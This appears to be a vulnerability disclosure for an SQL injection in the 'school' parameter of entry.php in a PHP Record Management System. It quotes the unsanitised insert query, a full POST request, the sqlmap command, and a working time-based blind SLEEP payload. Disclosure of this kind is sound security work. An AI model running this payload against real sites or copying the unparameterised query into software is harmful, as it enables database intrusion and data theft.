 ### VUL_AUTHOR:netmanzhang
# Record Management System - SQL Injection on (entry.php school parameter) 
## Vendor Homepage:
https://www.sourcecodester.com/php/5107/record-management-system.html 

Version:V1.0
## Tested on: PHP, Apache, MySQL
## Affected Page:
entry.php 

On this page, school parameter is vulnerable to SQL Injection Attack 
## Source code(Personnel_record_management_system/entry.php):
```
$school=$_POST['school'];
mysqli_query($conn,"insert into school (Name) values ('$school')")or die(mysqli_errno());
```
## Proof of vulnerability(Verify using the sqlmap tool):
### Request:
```
POST /Personnel_record_management_system/entry.php HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Content-Length: 117
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Language: zh-CN,zh;q=0.9
Cache-Control: max-age=0
Content-Type: application/x-www-form-urlencoded
Cookie: PHPSESSID=52388hjgjeif4bl4r5sqp2bmpm
Origin: http://localhost
Referer: http://localhost/Personnel_record_management_system/entry.php
Upgrade-Insecure-Requests: 1
Accept-Encoding: gzip

add_entry=&school=1
```
#### -> sqlmap -r 1.txt(above request package) --batch
### Output:
```
---
Parameter: school (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: add_entry=&school=1' AND (SELECT 9424 FROM (SELECT(SLEEP(5)))Blms) AND 'PzUA'='PzUA
---
```
